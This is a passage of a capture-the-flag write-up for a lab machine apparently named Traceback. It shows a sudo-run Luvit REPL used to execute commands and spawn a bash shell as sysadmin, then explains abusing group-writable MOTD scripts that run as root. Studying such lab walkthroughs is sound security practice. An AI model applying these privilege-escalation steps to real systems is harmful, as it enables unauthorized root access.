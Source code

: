 ```shell
webadmin@traceback:/var/www/html$ sudo -H -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute ("whoami")
sysadmin
true    'exit'  0
> os.execute ("pwd")
/var/www/html
true    'exit'  0
> os.execute ("ls /home/sysadmin")
luvit  user.txt
true    'exit'  0
> os.execute ("ls -la /home/sysadmin")
total 4340
drwxr-x--- 5 sysadmin sysadmin    4096 Jun 21 10:54 .
drwxr-xr-x 4 root     root        4096 Aug 25  2019 ..
-rw------- 1 sysadmin sysadmin       1 Aug 25  2019 .bash_history
-rw-r--r-- 1 sysadmin sysadmin     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin    3771 Apr  4  2018 .bashrc
drwx------ 2 sysadmin sysadmin    4096 Aug 25  2019 .cache
drwxrwxr-x 3 sysadmin sysadmin    4096 Aug 24  2019 .local
-rw-r--r-- 1 sysadmin sysadmin     177 Jun 21 10:58 .luvit_history
-rw-r--r-- 1 sysadmin sysadmin     807 Apr  4  2018 .profile
drwxr-xr-x 2 root     root        4096 Aug 25  2019 .ssh
-rwxrwxr-x 1 sysadmin sysadmin 4397566 Aug 24  2019 luvit
-rw------- 1 sysadmin sysadmin      33 Jun 19 15:13 user.txt
true    'exit'  0
> os.execute ("/bin/bash -i")
sysadmin@traceback:/var/www/html$
```

As `sysadmin`, I ran linPEAS to see what possible vectors existed to get to root. One of the things that stood out was that all of the MOTD scripts were group-writable.

For those who don't know, MOTD stands for "Message of the Day" and it is principally responsible for displaying the login message when someone logs in to a shell (via SSH, for example). What's convenient, for someone with malicious intent anyways, is that those login scripts are bash, which of course means you can do some pretty powerful stuff. In this case, those scripts were being executed as `root`!

The script executed upon login is typically `00-header`:

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
[ -r /etc/lsb-release ] && . /etc/lsb-release
echo "\nWelcome to Xh4H land \n"
```
